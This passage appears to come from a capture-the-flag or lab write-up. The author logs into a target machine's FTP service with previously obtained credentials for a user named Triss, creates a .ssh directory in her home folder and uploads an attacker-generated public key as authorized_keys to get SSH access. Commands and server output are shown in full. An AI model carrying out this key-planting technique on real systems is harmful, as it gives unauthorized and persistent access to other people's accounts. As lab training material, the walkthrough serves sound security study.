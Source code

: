 I could log into the web page with the new creds, but as we know there is nothing here for us.

<img src="/assets/img/sync/Untitled 6.png" alt="Untitled 6.png" style="width:800px;">

Trying to connect to the SSH server as Triss didn’t work. We need a key.

```bash
ssh triss@10.10.78.166 -o PreferredAuthentications=password
Permission denied (publickey).
```

Anonymous FTP login is not enabled but can authenticate as Triss. The shared folder is her home's directory.

```
ftp 10.10.78.166
ftp> ls -lah
drwxr-x---    2 1003     1003         4096 Apr 21  2023 .
drwxr-x---    2 1003     1003         4096 Apr 21  2023 ..
lrwxrwxrwx    1 0        0               9 Apr 21  2023 .bash_history -> /dev/null
-rw-r--r--    1 1003     1003          220 Apr 19  2023 .bash_logout
-rw-r--r--    1 1003     1003         3771 Apr 19  2023 .bashrc
-rw-r--r--    1 1003     1003          807 Apr 19  2023 .profile
226 Directory send OK.
```

Created an SSH directory.

```
ftp> mkdir .ssh
257 "/.ssh" created
```

Built a pair of keys `ssh-keygen -f dusk` and placed the public one into the directory.

```
ftp> cd .ssh
250 Directory successfully changed.
ftp> put dusk.pub authorized_keys
local: dusk.pub remote: authorized_keys
229 Entering Extended Passive Mode (|||26799|)
150 Ok to send data.
100% |************************************************|    91        3.33 MiB/s    00:00 ETA
226 Transfer complete.
91 bytes sent in 00:00 (0.65 KiB/s)
```
